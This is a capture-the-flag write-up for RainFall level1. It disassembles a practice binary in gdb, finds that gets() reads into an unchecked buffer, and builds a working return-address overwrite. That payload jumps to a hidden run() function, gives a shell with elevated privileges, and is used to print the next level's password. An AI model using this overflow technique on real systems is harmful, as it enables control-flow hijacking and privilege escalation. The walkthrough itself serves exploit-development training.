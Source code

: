# Level 0

Once logged in, you will see a binary `level1`.

```
$ ssh level1@localhost -p 4444
          _____       _       ______    _ _
         |  __ \     (_)     |  ____|  | | |
         | |__) |__ _ _ _ __ | |__ __ _| | |
         |  _  /  _` | | '_ \|  __/ _` | | |
         | | \ \ (_| | | | | | | | (_| | | |
         |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on localhost:4242
level1@localhost's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level1/level1
level1@RainFall:~$ ls
level1
```

Let's run this and see what this does.
```
level1@RainFall:~$ ./level1

```

It seems it tries getting input, so let's try typing something.

```
level1@RainFall:~$ ./level1
aaa
level1@RainFall:~$
```

It does nothing, so let's run `gdb` to see what's going on.

```
level1@RainFall:~$ gdb level1
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
gdb-peda$ disassemble main
Dump of assembler code for function main:
   0x08048480 <+0>:     push   ebp
   0x08048481 <+1>:     mov    ebp,esp
   0x08048483 <+3>:     and    esp,0xfffffff0
   0x08048486 <+6>:     sub    esp,0x50
   0x08048489 <+9>:     lea    eax,[esp+0x10]
   0x0804848d <+13>:    mov    DWORD PTR [esp],eax
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave
   0x08048496 <+22>:    ret
End of assembler dump.
gdb-peda$
```

It seems there must be some more, and we can check the list of functions by the command on gdb: `info functions`.

```
Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_glo
```

There are some system calls, but we see a function `run`. let's check that function.

```
gdb-peda$ disass run
Dump of assembler code for function run:
   0x08048444 <+0>:     push   ebp
   0x08048445 <+1>:     mov    ebp,esp
   0x08048447 <+3>:     sub    esp,0x18
   0x0804844a <+6>:     mov    eax,ds:0x80497c0
   0x0804844f <+11>:    mov    edx,eax
   0x08048451 <+13>:    mov    eax,0x8048570
   0x08048456 <+18>:    mov    DWORD PTR [esp+0xc],edx
   0x0804845a <+22>:    mov    DWORD PTR [esp+0x8],0x13
   0x08048462 <+30>:    mov    DWORD PTR [esp+0x4],0x1
   0x0804846a <+38>:    mov    DWORD PTR [esp],eax
   0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:    mov    DWORD PTR [esp],0x8048584
   0x08048479 <+53>:    call   0x8048360 <system@plt>
   0x0804847e <+58>:    leave
   0x0804847f <+59>:    ret
End of assembler dump.
gdb-peda$
```

Now, the function `run` is initialized, but there is no way the function `run` is called. But on main, we can see the `gets` function is used. The `gets` function has a vulnerability (as noted in its [man page](https://linux.die.net/man/3/gets)), as the input length is not checked:

```
Bugs
Never use gets(). Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use. It has been used to break computer security. Use fgets() instead.
```

This means we can use a buffer overflow attack to modify the memory on the stack to "return" to the `run` function at the end of the main function. To do this, we'll need to figure out the location of `run` in memory and put that in the `eip` register.

In `main`, the whole stack frame is allocated with a size of `0x50` (80 in decimal). Note that this includes both the stack frame as well as any memory allocated, in this case 64 bytes for the `gets` buffer.

```
   0x08048480 <+0>:     push   ebp
   0x08048481 <+1>:     mov    ebp,esp
   0x08048483 <+3>:     and    esp,0xfffffff0
   0x08048486 <+6>:     sub    esp,0x50          // <- here
   0x08048489 <+9>:     lea    eax,[esp+0x10]
```

Let's try running the program with the parameter of length 80 and see how it works:

```
level1@RainFall:~$ python -c "print 'A' * 80" | ./level1
Segmentation fault (core dumped)
```

The program crashes with a segmentation fault. Checking on the debugger, we can see the `eip` register is overwritten the character `AAAA`!

```
gdb-peda$ run <<< $(python -c "print 'A' *80")

[----------------------------------registers-----------------------------------]
EAX: 0xbffff6b0 ('A' <repeats 80 times>)
EBX: 0xb7fd0ff4 --> 0x1a4d7c
ECX: 0xb7fd28c4 --> 0x0
EDX: 0xbffff6b0 ('A' <repeats 80 times>)
ESI: 0x0
EDI: 0x0
EBP: 0x41414141 ('AAAA')
ESP: 0xbffff700 --> 0x0
EIP: 0x41414141 ('AAAA')
EFLAGS: 0x210286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414141
[------------------------------------stack-------------------------------------]
0000| 0xbffff700 --> 0x0
0004| 0xbffff704 --> 0xbffff794 --> 0xbffff8b3 ("/home/user/level1/level1")
0008| 0xbffff708 --> 0xbffff79c --> 0xbffff8cc ("SHELL=/bin/bash")
0012| 0xbffff70c --> 0xb7fdc858 --> 0xb7e2c000 --> 0x464c457f
0016| 0xbffff710 --> 0x0
0020| 0xbffff714 --> 0xbffff71c --> 0x0
0024| 0xbffff718 --> 0xbffff79c --> 0xbffff8cc ("SHELL=/bin/bash")
0028| 0xbffff71c --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
gdb-peda$
```

If we replace the last `AAAA` with the address of the function `run`, instead of a segmentation fault caused from invalid return address, the run function will be executed.

```
level1@RainFall:~$ (python -c "print 'A' * 76 + '\x44\x84\x04\x08'" ; cat -) | ./level1
Good... Wait what?
id
uid=2030(level1) gid=2030(level1) euid=2021(level2) egid=100(users) groups=2021(level2),100(users),2030(level1)
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
